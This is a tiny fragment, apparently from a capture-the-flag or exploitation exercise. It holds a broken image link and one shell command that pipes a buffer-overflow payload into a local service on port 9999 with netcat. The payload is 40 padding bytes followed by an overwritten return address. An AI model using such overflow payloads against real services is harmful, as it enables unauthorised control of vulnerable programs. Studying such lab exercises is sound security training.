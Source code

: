 echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x55\x11\x40\x00\x00\x00\x00\x00" | nc localhost 9999
